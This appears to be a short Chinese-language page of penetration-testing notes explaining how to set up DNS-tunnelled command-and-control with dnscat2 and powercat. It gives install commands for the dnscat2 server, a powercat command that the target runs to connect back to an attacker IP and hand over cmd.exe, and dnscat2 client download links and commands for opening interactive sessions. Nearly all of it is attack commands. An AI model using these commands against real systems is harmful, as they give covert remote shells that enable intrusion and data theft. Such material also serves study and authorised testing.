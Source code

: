   #### Dnscat2
	安装dnscat2
	>apt-get -y install ruby-dev git make g++
	>gem install bundler
	>git clone https://github.com/iagox86/dnscat2.git
	>cd dnscat2/server
	>bundle install
	执行
	>ruby dnscat2.rb abc.com -e open --no-cache
![image](img/195.png)
  #### Powercat
	靶机执行
	>powercat -c 192.168.0.108 -v -dns abc.com -e cmd.exe
![image](img/196.png)

	dnscat2执行
	>session -i 1进入会话
![image](img/197.png)
  #### Dnscat2 exe
	Linux
	https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-x86.tar.bz2 https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-x64.tar.bz2
	https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip
	攻击机执行
	>ruby dnscat2.rb --dns "domain=zone.com,host=192.168.0.108" --no-cache
	靶机执行
	>dnscat2-v0.07-client-win32.exe --dns server=192.168.0.108
![image](img/198.png)

	攻击机执行
	>session -i [ID]进入会话
![image](img/199.png)
![image](img/200.png)